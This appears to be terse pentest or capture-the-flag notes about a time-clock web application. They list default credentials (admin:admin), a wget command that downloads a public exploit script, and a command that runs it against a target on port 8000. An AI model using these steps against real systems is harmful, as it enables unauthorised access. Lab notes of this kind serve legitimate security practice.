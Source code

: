 ```yaml
---
category: Uncategorized
tags: []
---
```

Default creds admin:admin

```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```

```
python timeclock.py $TARGET 8000
```



